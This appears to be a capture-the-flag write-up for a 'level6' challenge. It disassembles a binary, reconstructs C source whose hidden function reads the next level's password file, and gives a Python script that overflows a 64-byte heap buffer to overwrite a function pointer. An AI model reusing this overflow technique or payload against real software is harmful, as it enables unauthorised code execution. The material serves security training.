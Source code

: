 Let's run `GDB`:
``` shell
$ gdb level6 
(gdb) set disassembly-flavor intel
(gdb) disas main
   0x0804847c <+0>:  push   ebp
   0x0804847d <+1>:  mov    ebp,esp
   0x0804847f <+3>:  and    esp,0xfffffff0
   0x08048482 <+6>:  sub    esp,0x20
   0x08048485 <+9>:  mov    DWORD PTR [esp],0x40
   0x0804848c <+16>: call   0x8048350 <malloc@plt>
   0x08048491 <+21>: mov    DWORD PTR [esp+0x1c],eax
   0x08048495 <+25>: mov    DWORD PTR [esp],0x4
   0x0804849c <+32>: call   0x8048350 <malloc@plt>
   0x080484a1 <+37>: mov    DWORD PTR [esp+0x18],eax
   0x080484a5 <+41>: mov    edx,0x8048468
   0x080484aa <+46>: mov    eax,DWORD PTR [esp+0x18]
   0x080484ae <+50>: mov    DWORD PTR [eax],edx
   0x080484b0 <+52>: mov    eax,DWORD PTR [ebp+0xc]
   0x080484b3 <+55>: add    eax,0x4
   0x080484b6 <+58>: mov    eax,DWORD PTR [eax]
   0x080484b8 <+60>: mov    edx,eax
   0x080484ba <+62>: mov    eax,DWORD PTR [esp+0x1c]
   0x080484be <+66>: mov    DWORD PTR [esp+0x4],edx
   0x080484c2 <+70>: mov    DWORD PTR [esp],eax
   0x080484c5 <+73>: call   0x8048340 <strcpy@plt>
   0x080484ca <+78>: mov    eax,DWORD PTR [esp+0x18]
   0x080484ce <+82>: mov    eax,DWORD PTR [eax]
   0x080484d0 <+84>: call   eax
   0x080484d2 <+86>: leave  
   0x080484d3 <+87>: ret 
```

Let's firstly dissassemble the function:
``` c
void n()
{
   system("/bin/cat /home/user/level7/.pass");
}

void m()
{
   puts("Nope");
}

typedef void (*t_func)();

int main(int argc, char **argv)
{
   char *str;
   t_func *func;

   str = malloc(64);
   func = malloc(sizeof(t_func));

   *func = m;
   strcpy(str, argv[1]);

   (*func)();

   return 0;
}
```

We have two variables.
I've called them `str` and `func`.
We sequentially allocate memory for them.
Then you use `str` for storing `argv[1]` and `func` for calling function `m`.

The exploit here is quite easy.
We control `argv[1]` and if we pass a string larger than 64 bytes, the memory will be overwritten.
More precisely a malloc's block for variable `func` will be overwritten.

We know that malloc uses 8 bytes for storing information about its blocks.

So, to overwrite value of `func` variable we need to pass string in following format:
`[64 bytes for str][8 bytes for malloc block][value for func]`

We can generate such strings with following script:
``` python
import struct

out = ''
out += '1' * (64 + 8)
out += struct.pack('I', 0x8048454)
out += '\x00'

print(out)
```

